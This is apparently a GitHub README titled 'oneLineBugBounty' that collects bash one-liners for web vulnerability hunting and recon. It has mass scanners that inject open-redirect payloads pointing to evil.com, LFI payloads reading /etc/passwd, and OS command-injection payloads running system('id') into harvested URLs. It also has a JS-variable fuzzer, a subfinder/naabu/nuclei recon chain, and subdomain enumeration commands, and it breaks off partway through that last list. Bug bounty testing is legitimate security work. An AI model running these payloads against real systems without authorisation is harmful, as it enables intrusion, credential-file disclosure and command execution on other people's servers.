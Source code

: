 # oneLineBugBounty
Earn bug bounty codes very helpful and advanced.

# One-Liners for bug bounty
MySpecial


### Redirects 
```bash
cat * | uro | uniq | grep -a -i "=http" | qsreplace "evil.com" | while read -r host; do   response=$(curl -s -L -I "$host" | grep "evil.com");   if [[ ! -z "$response" ]]; then     echo -e "$host \033[0;31mVulnerable\033[0m";     echo "$response";   fi; done
```
### LFI
```bash
# echo "https://staff.edmarker.com/index.php?page=111&f_id=735&target=Right" | \
cat allurls.txt | qsreplace "111" | uro | sort | uniq | sed 's/111/\/etc\/passwd%00/' | while read url; do     curl -s "$url" | grep "root:x:" && echo "$url is vulnerable"; done
```
### Os Command Injection
```
cat allurls.txt | uro | grep "\?" | sed "s/=./='.system(%27id%27);/" | uniq | while read url; do    curl -s "$url" | grep -i "uid=" && echo "$url is vulnerable to Command Injection";  done
```

### Special urls
```
cat allurls.txt | cat | grep -Eiv '(.eot|.jpg|.jpeg|.gif|.css|.tif|.tiff|.png|.ttf|.otf|.woff|.woff2|.ico|.svg|.txt|.pdf)' | while read url; do vars=$(curl -s $url | grep -Eo "var [a-zA-Z0-9]+" | sed -e 's,'var','"$url"?',g' -e 's/ //g' | grep -Eiv '\.js$|([^.]+)\.js|([^.]+)\.js\.[0-9]+$|([^.]+)\.js[0-9]+$|([^.]+)\.js[a-z][A-Z][0-9]+$' | sed 's/.*/&=FUZZ/g'); echo -e "\e[1;33m$url\e[1;32m$vars";done
```





###### follow and starts❤️
----------------------
![image](https://user-images.githubusercontent.com/75373225/180003557-59bf909e-95e5-4b31-b4f8-fc05532f9f7c.png)
---------------------------
## One Line recon using pd tools
```
subfinder -d redacted.com -all | anew subs.txt; shuffledns -d redacted.com -r resolvers.txt -w n0kovo_subdomains_huge.txt | anew subs.txt; dnsx -l subs.txt -r resolvers.txt | anew resolved.txt; naabu -l resolved.txt -nmap -rate 5000 | anew ports.txt; httpx -l ports .txt | anew alive.txt; katana -list alive.txt -silent -nc -jc -kf all -fx -xhr -ef woff,css,png,svg,jpg,woff2,jpeg,gif,svg -aff | anew urls.txt; nuclei -l urls.txt -es info,unknown -ept ssl -ss template-spray | anew nuclei.txt
```
# Subdomain Enumeration
```
## Juicy Subdomains
subfinder -d target.com -silent | dnsx -silent | cut -d ' ' -f1  | grep --color 'api\|dev\|stg\|test\|admin\|demo\|stage\|pre\|vpn'

## from BufferOver.run
curl -s https://dns.bufferover.run/dns?q=.target.com | jq -r .FDNS_A[] | cut -d',' -f2 | sort -u 

## from Riddler.io
```